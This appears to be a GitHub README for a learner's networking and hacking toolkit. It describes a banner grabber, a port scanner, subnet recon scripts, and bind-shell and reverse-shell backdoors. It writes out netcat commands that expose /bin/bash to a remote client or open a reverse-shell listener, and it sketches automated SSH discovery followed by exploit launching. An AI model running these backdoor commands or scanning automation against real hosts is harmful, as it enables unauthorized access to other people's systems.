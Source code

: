 # pwnn3t

Just some wizardry and setups while writing my own tools.

Platform: Debian GNU/Linux.

All tools are written for TCP/IP


# ascii-server.c
A C program for a server. It's a server, which means it offers a service. What service? ASCII transfer. If it would offer the service of transferring files, it would be an FTP server. What are the other services? Do a "cat /etc/services" to find out. How do I run this program? Do a "./start-service 2171" and fire up another terminal, write "telnet localhost 2171".... This program unravels many concepts about networking. Ports, services, C socket programming, protocols, protocol families, how to implement them, et cetera. Learn how to use telnet, ssh, ftp and sftp.... Play around with these tools on your Linux system for a few hours.... Set up SSH on your local machine and thus make it an SSH server, set up an FTP server, connect to your machine through another.... Do some shell execution and file transfers.... Just set up SSH and FTP and play around with the tools. Why do all these exercises? To learn. The more you experiment, the more you unravel, the more you learn. And you're gonna need these concepts to write the next tool. EXPERIMENT AS MUCH AS YOU CAN. When you learnt your native language, you listened to others speak, spoke yourself, did mistakes, experimented and you experiment and thus learn everytime you say something or write something in that language. The same goes for computers. The more you experiment, the more you unravel, the more you learn. Example: You take the IP address of the computer with this server, and instead of doing it on localhost, you do it through telnet directly on the server through another computer. This gives you ideas about hostnames and internet addresses. This is just an example. Do it more than just this, better than just this.

# ascii-client.c
A C program for a client compatible with ascii-server.c
Do a "./start-service 2171" to start the server and make it listen on port 2171
Fire up another terminal, type "./client 127.0.0.1 2171" to connect to localhost on port 2171
When using more than one machines, type the IP address of the remote host instead of 127.0.0.1
127.0.0.1 indicates "this computer".... To unravel more, learn about hostnames and TCP/IP basics.

# bangrab.c
A banner grabber in C. What a banner grabber does is loosely service(also called a daemon very often) reconnaissance on a given remote host. For example, how do you know if which services out of the tons of services is up and running on a given server? bangrab will help you find out.... It tells you what services are up and running... Now that you know the default ports for services can make a hacker hook on to your system, you might want to change the default port of your SSH server, or some hacker will gain the shell of your system.... There are numerous benefits of doing this.... If you change the SSH port to say "335647", the hacker can know that the server is listening on port 335647, but he can't be sure if it's SSH.... You could swap default ports of many services, say, SSH, FTP and SMTP, and thus make the hacker pull his hair out because he'll be able to find out that the server is listening on the port 22, but it won't be SSH..... but that doesn't help!!!! For example,  your ip is 1.1.1.1 --- your class d subnet is 1.1.1.1, 1.1.1.2, ...., 1.1.1.255 --
first step determine which hosts are alive.
second step - scan 65535 ports of each host that is alive dumping the banner of each port.
now you have data
1.1.1.1 was up -- it's open ports were 21,22,60000
1.1.1.2 was down
1.1.1.3 was up -- it's open ports were 50000,50001
etc..
you have the banners if there were
on host 1.1.1.3 -- it's open port 500001
1.1.1.3:50001 banner was SSH-2.0-OpenSSH_6.7p1 Raspbian-5+deb8u3

your program was automated to seek SSH banners for example

scan the banner string for SSH -- see how SSH is in there?

now that we have found ssh.. we never cared about the port, we cared about the banner. now we launch an automation. on host 1.1.1.3 on port 50001 we execute a command on it like say exploit.c

it automates ie: ./exploit 1.1.1.3 50001 or for test exercises `ping 1.1.1.3 50001` .. ping can be anything. it's the logic and practice.

# pls.c
A TCP port scanner in C. It's short for "port ls". It doesn't dump the banners for the ports and that's almost useless, but it's a good exercise if you don't understand the banner grabber.

# recon.sh
A bash script for the reconnaissance of all alive hosts on a network through subnet masks scanning.

# recon.py
A powerful Python replacement for recon.sh

# binshell.py
Socket backdoor in Python
A backdoor or backconnect is some sort of way you use to give yourself later access to a system you got access to. Thus, the name backdoor. A door you engineer to again get into a house you once somehow broke into.
A bind shell is a sort of backdoor that binds you to a shell on the victim (say /bin/sh) through sockets.
Similar to, uhh, 'nc -l 1337 -e /bin/bash' and then you connect to the victim by typing 'nc 0.0.0.0 1337' on the client(note the IP address and port is something you should change according to your necessity)

# revsh.py
Reverse Shell backdoor in Python
Unlike a bind shell, a reverse shell is a backdoor where the listener is on the attacker's side, and the victim connects to the listener, giving the listener access to it's shell. When doing by hand, run 'nc -vlp 31337' on the attack box and 'nc (remote host) 31337' on the victim.
.
Stay Curious
Never Stop Building
Happy Hacking
.
k4m1k4z13r
